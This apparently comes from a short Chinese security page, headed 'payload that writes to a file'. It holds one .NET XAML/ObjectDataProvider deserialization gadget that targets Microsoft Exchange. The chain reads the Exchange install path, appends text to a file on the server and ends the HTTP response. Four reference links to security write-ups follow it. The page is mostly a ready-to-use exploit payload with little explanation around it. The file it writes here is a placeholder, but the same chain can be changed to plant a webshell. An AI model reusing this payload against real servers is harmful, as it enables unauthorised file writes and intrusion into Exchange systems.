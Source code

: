 写入文件的payload

```
<ExpandedWrapperOfXamlReaderObjectDataProvider xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" >
    <ExpandedElement/>
    <ProjectedProperty0>
        <MethodName>Parse</MethodName>
        <MethodParameters>
            <anyType xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xsi:type="xsd:string">
                <![CDATA[
                    <ResourceDictionary xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation"
                        xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml" 
                        xmlns:s="clr-namespace:System;assembly=mscorlib"
                        xmlns:w="clr-namespace:System.Web;assembly=System.Web">
                        <s:String x:Key="a" x:FactoryMethod="s:Environment.GetEnvironmentVariable" x:Arguments="ExchangeInstallPath"/>
                        <s:String x:Key="b" x:FactoryMethod="Concat">
                        <x:Arguments>
                            <StaticResource ResourceKey="a"/>
                            <s:String>\\aaaa\\bbb\\ccc\\test.txt</s:String>
                        </x:Arguments>
                        </s:String>
                        <ObjectDataProvider x:Key="x" ObjectType="{x:Type s:IO.File}" MethodName="AppendAllText">
                        <ObjectDataProvider.MethodParameters>
                            <StaticResource ResourceKey="b"/>                       
                            <s:String>iiiii</s:String>                       
                        </ObjectDataProvider.MethodParameters>
                        </ObjectDataProvider>
                        <ObjectDataProvider x:Key="c" ObjectInstance="{x:Static w:HttpContext.Current}" MethodName=""/>
                        <ObjectDataProvider x:Key="d" ObjectInstance="{StaticResource c}" MethodName="get_Response"/>
                        <ObjectDataProvider x:Key="e" ObjectInstance="{StaticResource d}" MethodName="End"/>
                    </ResourceDictionary>
                ]]>
            </anyType>
        </MethodParameters>
        <ObjectInstance xsi:type="XamlReader"></ObjectInstance>
    </ProjectedProperty0>
</ExpandedWrapperOfXamlReaderObjectDataProvider>
```







参考链接：

https://www.cnblogs.com/zpchcbd/p/17180208.html#/

https://xz.aliyun.com/t/9592

https://www.cnblogs.com/nice0e3/p/16942833.html#/expandedwrapper

https://www.anquanke.com/post/id/172316#/h3-8
